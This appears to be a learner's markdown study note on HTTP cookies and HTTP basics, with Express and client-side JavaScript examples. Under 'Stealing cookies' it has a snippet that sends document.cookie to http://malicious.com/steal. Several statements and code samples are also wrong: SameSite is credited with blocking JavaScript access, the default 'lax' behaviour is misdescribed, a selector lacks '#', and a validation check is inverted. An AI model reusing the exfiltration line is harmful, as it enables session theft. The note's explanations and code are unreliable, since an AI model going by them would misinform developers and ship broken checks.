





[Cookies](#cookies)
1. [HTTP Cookies Crash Course](https://youtu.be/sovAIX4doOE)
    1. [Create Cookies](#create-cookies)
    1. [Cookie Properties](#cookie-properties)
        1. [Cookie Scope](#cookies-scope)
            1. [Domain](#domain)
            1. [Path](#path)
        1. [Same Site](#same-site)
    1. [Cookie Types](#cookie-types)
        1. [Session cookie](#session-cookie)
        1. [Permanent cookie](#permanent-cookie)
        1. [Httponly cookie](#httponly-cookie)
        1. [Secure cookie](#secure-cookie)
        1. [Third party cookie](#third-party-cookie)
        1. [Zombie cookie](#zombie-cookie)
    1. [Cookie Security](#cookie-security)
        1. [Stealing cookies](#stealing-cookies)
        1. [Cross site request forgery](#cross-site-request-forgery)

[HTTP](#http)
1. [HTTP Crash Course & Exploration](https://youtu.be/iYM2zFP3Zn0)
---
# Cookies
- Reference [HTTP Cookies Crash Course](https://youtu.be/sovAIX4doOE)
## Create Cookies
1. Cookies can be set either on server or client side.
    1. Client - JavaScript `document.cookie`
        ```js
        // JavaScript
        document.cookie="foo=bar";
        ```
        ```html
        <!-- HTML -->
        <!DOCTYPE html>
        <html lang="en">

        <head>
            <meta charset="UTF-8">
            <meta http-equiv="X-UA-Compatible" content="IE=edge">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Document</title>
        </head>

        <body>
            <button id="btnCreateCookie">Create Cookie</button>
            <script>
                const btnCreateCookie = document.querySelector('#btnCreateCookie');
                btnCreateCookie.addEventListener('click', (event) => {
                    document.cookie = "foo=bar";
                })
            </script>
        </body>

        </html>
        ```
    1. Server - `set-cookie` header
        ```js
        // express server
        app.get('/', (req, res) => {
            // set cookies in response
            res.setHeader('set-cookie', [`setfromserver=1`]);
            res.sendFile(`${__dirname}/index.html`);
        });
        ```
1. When setting cookies from server-side, we can check in the developer console
    

## Cookie Properties
1. Cookies are sent with every request.
    1. We can check the details in "Cookie" > "request" > "Network" in developer console.
        
    1. We if clear the cookies of a domain bucket, no "Cookie" property will be in the header when sending requests.

### Cookies Scope
1. Cookies can be scoped by [`Domain`](#domain) and [`Path`](#path).

#### Domain
1. We can check `Cookies` in `Application` in developer console that cookies are stored in a "bucket" which is scoped by "domain".
1. In addition, we can set "path" for cookies optionally, so we can send certain cookies when sending request to a specific route.
1. When we change the domain, even a sub-domain from the same host or main domain, the cookies won't be shared.
1. However, we can add a property `domain` when create a cookie with value such as `.example.com` which will make the cookie available for all the sub-domains from `example.com`.
    ```js
    // client JS
    document.cookie = "foo=bar; domain=.example.com";
    // both example.com and www.example.com can access foo=bar
    ```

#### Path
1. Besides `domain`, we can set another property `path` when creating cookies.
    ```js
    // server JS
    app.get('/path1', (req, res) => {
        res.send(`Path 1: I have been sent these cookies ${req.headers.cookie}`);
    });

    app.get('/path2', (req, res) => {
        res.send(`Path 2: I have been sent these cookies ${req.headers.cookie}`);
    });
    ```
    ```js
    // client JS
    document.cookie = "john=doe; path=/path1";
    document.cookie = "jane=doe; path=/path2";
    ```
1. When we visit different path, we can only get path only cookies and universal cookie for the domain.
1. By grouping cookies with `domain` and `path`, we can increase security, reduce bandwith when transferring data, and limit data leakage.

### Expires, Max-age
1. A cookie will be destroied when the browser is closed if it's session-based and no `max-age` is given.
1. We can give `max-age` as the property when creating a cookie. This property takes values as seconds. For example, if we'd like the cookie set alive for 1 min, we can give `max-age=60`.
1. The cookie will be removed from the bucket automatically when it's expired.
    ```js
    // client JS
    document.cookie = "tempcookie=9; max-age=60"; // this cookie alives only 1 min
    ```

### Same site
1. As user credentials can be stored in cookies for authentication, cross site request forgery can be made if there's no limitation on cross site request sharing. 
1. This forgery request can be done as all cookies will be sent along with the requests that the browser make.
1. This is the main reason why it's recommended to regular users that DO NOT click suspicious links. This can allow external users access credentials cookies and forge user requests.
1. This also explains why the user experience and process to authenticate online banking services are very unfriendly, and the login sessions usually alives only a short period of time, such as 20 mins.
1. However, this also depends on the security design of the service providers if they have unsecure authentication process.
    1. For example, a phising link can be a `GET` request with parameters to take action request on certain service such as transferring money.
    1. If the user has ever logged in and been authenticated that credentials or access token is stored in cookies, the credential cookies will be send along with the request to the service. 
    1. This is another reason why most of the modern APIs won't take `GET` request for actions to prevent forgery requests.
1. To ensure the cookie will be sent along the request when the users are requesting from the same site, we can give `samesite=strict` when creating the cookie. 
    ```js
    document.cookie = "samesitecookie=1; samesite=strict"
    ```
1. Note that the default value for `samesite` is `lax` which will send the cookie when along all the requests to the domain or path.

## Cookie Types
### Session cookie
1. Session cookies alive with the user session. When the browser is closed or the user session expires, the cookie will expire and be removed.
1. This is the default property which in mostly in the examples above.

### Permanent cookie
1. This keeps cookies alive that doesn't have `max-age` or won't expire.

### Httponly cookie
1. This type of cookies can only be served by server and the client CAN NOT read the cookie.
    ```js
    // server JS
    app.get('/', (req, res) => {
        res.setHeader('set-cookie', [`setfromserver=1`, `jscantseethis=1; httponly`]);
        res.sendFile(`${__dirname}/index.html`);
    });
    ```
1. If we call `document.cookie` in the browser console, the `httponly` cookie won't be read and retrieved. This simply prevents JavaScript to access the cookie.
1. Note that though this cookie can't be parsed by JavaScript, it is still a cookie and will be sent along with requests.

### Secure cookie
1. Secure cookies are only available if the website uses SSL with HTTPS.

### Third party cookie
1. This is having cookies provided by a 3rd party send along with requests.
1. This is useful for marketing and advertising services. For example, Google may provide ads on a website and provides commission to the website owner.
1. Note that cookies consider domains with different ports as the same domain (though origin is different). However, alias such as `localhost` with `127.0.0.1` will be treated as different domain.

### Zombie cookie
1. Zombie cookies will respawn themselves with the same values though being removed. 

## Cookie Security
### Stealing cookies
1. If a cookie isn't assigned with `samesite` property, it can be fetched and manipulated by JavaScript. 
1. For example, we can use JavaScript to change the `href` link of a hyper link and send the cookies to other servers.
1. The following code will send all the cookies to an external link as GET requset in `cookies` parameter.
    ```html
    <a id="steal">Steal cookie</a>
    ```
    ```js
    // client JS
    const stealBtn = document.querySelector('steal');
    stealBtn.href = `http://malicious.com/steal?cookies=${document.cookie}`;
    ```

### Cross site request forgery
1. This condition is explained in [Same Site](#same-site) that a malicious website can create a link and pretend the user to make requests with unsecured cookies. 
1. If the service application doesn't have enough security, it may take the forgery request as a valid user request. 


# HTTP
- Reference 
    1. [HTTP Crash Course & Exploration](https://youtu.be/iYM2zFP3Zn0)
1. What is HTTP?
    1. HTTP stands for Hyper Text Transfer Protocol
    1. Communication between web servers and clients 
    1. HTTP Requests/Responses
    1. Loading pages, form submit, AJAX calls
1. HTTP is stateless 
    1. Every request is completely independant. It means that each request won't affect to each other.
    1. The concept is similar to transactions. 
    1. Programming, Local Storage, Cookies, Sessions are used to create enhanced user experience. 
1. What is HTTPS?
    1. Hyper Text Transfer Protocol Secure
    1. Data sent is encrypted 
    1. SSL (secure sockets layer) / TLS (transport layer security)
    1. HTTPS is enabled by installing certificate on web host
1. HTTP methods 
    1. GET - Retrieve data from the server 
    1. POST - Submit data to the server
    1. PUT - Update data already on the server 
    1. DELETE - Deletes data from the server 
    1. Though there are other methods, the 4 methods above are the most common ones.
1. HTTP header fields - 3 main general sections `General`, `Response` and `Request`
    1. General 
        1. Request URL
        1. Request Method
        1. Status Code 
        1. Remote Address
        1. Referrer Policy
    1. Response
        1. Server
        1. Set-Cookie
        1. Content-Type
        1. Content-Length
        1. Date
    1. Request 
        1. Cookies
        1. Accept-xxx
        1. Content-Type
        1. Content-Length
        1. Authorization
        1. User-Agent
        1. Referrer
    
1. HTTP status codes 
    1. 1xx: Informational - Request recieved / processing
    1. 2xx: Success - Successfully recieved, understood and accepted
    1. 3xx: Redirect - Further action must be taken / redirect    
    1. 4xx: Client Error - Request does not have waht it needs
    1. 5xx: Server Error - Server failed to fulfillan apparent valid request 
1. When visiting a website, we can check the connection between server and browser (client). We can open developer console (such as in Chrome browser) and check "**network**" tab for the different types of data and files that use browser to "**request**" to the server. Besides, we can check the header fields by clicking a document returned from the server. 
1. In addition, we can use POSTMAN to send different types of HTTP request. We can use the check the `body` content, `preview` as if the data is HTML or other types of media such as image. Besides, we can also configure and send other metadata such as `parameters`, `authorization`, `headers`, and `body`.

### Use Node.js express framework 
1. We can set up a local server with by using Node.js with `express` framework. In the argument of a route handler, we can check meta-data of the header in `req.header`, 
    ```js
    const express = require('express');
    const app = express();
    const port = process.env.PORT || 3000;

    app.use(express.json());
    app.use(express.urlencoded({ extended: false }));

    app.get('/', (req, res) => {
        // return header info in the requst send with HTTP GET method 
        res.send(req.header('user-agent'));
        // res.send(req.rawHeader);
    });

    app.listen(port, () => {
        console.log(`Server started on port: ${port}`);
    });
    ```
1. We can give different name of the property to check in the request header. For example, `user-agent` which is the browser or the program we use to send HTTP GET request to the endpoint. Besides, we can use `req.rawHeader` to send the whole header object, which is an `Array` of the field name in the header. 

### Check attached body data of the request 
1. In `express` server, we can set an endpoint and use `res.send()` to render the body of the request send from a client. For example, if a client sends data attched with the request, server can check the data from `req.body`. However, under `express` framework, we should use both `app.use(express.json())` and `app.use(express.urlencoded({ extended: false }))` middleware to read the data. 
1. In this example, we create an endpoint `/contact` to receive `POST` request from users as with the data sending from client to server. 
    ```js 
    app.post('/contact', (req, res) => {
        res.send(req.body);
    });
    ```
1. We can use POSTMAN to simulate the POST request. In the `body` tag, we can choose `x-www-form-urlencoded` to send key/value pairs, as to simulate sending the data from a `<form>` element from HTML. For example, we pass `name: Allen` and `email: apple@gmail.com`. 
    
1. Note that POSTMAN will add `content-type` automatically in the header info. 
    
1. Therefore, if we modify the property of `req.body` to `req.body.name`, we will get only `Allen` from the `name` key. Besides, we can also change the data to be sent on the page when the request is successful. 
    ```js 
    app.post('/contact', (req, res) => {
        res.send(req.header('Content-Type')); // application/x-www-form-urlencoded
    });
    ```
1. We can return status code accoding to the conditions. For example, if the body (data) sent from the client doesn't contain certain `key`, we can return a `400`, as it is a bad request. On the other hand, we can return status code `201`, as it means the data is sent to the server and create the data on the server successfully. 
    ```js 
    app.post('/contact', (req, res) => {
        // if name parameter is not sent from client to server
        if (req.body.name) {
            return res.status(400).send('Name is required');
        }
        
        res.status(201).send(`Thank you ${req.body.name}`);
    });
    ```

### Authentication
1. When we build a fullstack program, we can use JSON token for authentication. For example, we can send the token in `xAuth` token. 
    ```js 
    app.post('/login', (req, res) => {
        if(!req.header('x-auth-token')) {
            return res.status(400).send('No Token');
        }
        
        // '123456' is just a mock-up. This JSON token should be generated with other function or library
        if(req.header('x-auth-token') !== '123456') {
            return res.status(401).send('Not authorized');
        }

        res.send('Logged in');
    });
    ```
1. Therefore, we can use POSTMAN to test the endpoint. If we pass `x-auth-token` the same as it required at the end-opoint, we can get access to the service and get the last statement as `Logged in`.
    
1. Simulate a `PUT` request for editing a blog post. 
    ```js 
    app.put('/post/:id', (req, res) => {
        res.json({
            id: req.params.id,
            title: req.body.title
        });
    });
    ```
    
1. Simluate `DELETE` request for deleting a blog post. 
    ```js
    app.delete('/post/:id', (req, res) => {
        res.json({
            message: `Post ${req.params.id} is deleted`
        });
    });
    ```
    

### Use express to create a static HTML website
1. With `app.use(express.static('public'))`, we can create `public` folder in the root directory and creates a static HTML file `index.js`. Therefore, users use GET request to access the root directory will get teh HTML file returend. Besides, we can put other JavaScript script code and CSS file in the `public` folder and imported to use in the HTML file. 
    ```js 
    const express = require('express');
    const app = express();
    const port = process.env.PORT || 3000;

    app.use(express.json());
    app.use(express.urlencoded({ extended: false }));
    // render static HTML file
    app.use(express.static('public'));

    app.listen(port, function () {
        console.log(`Server started at port: ${port}`);
    });
    ```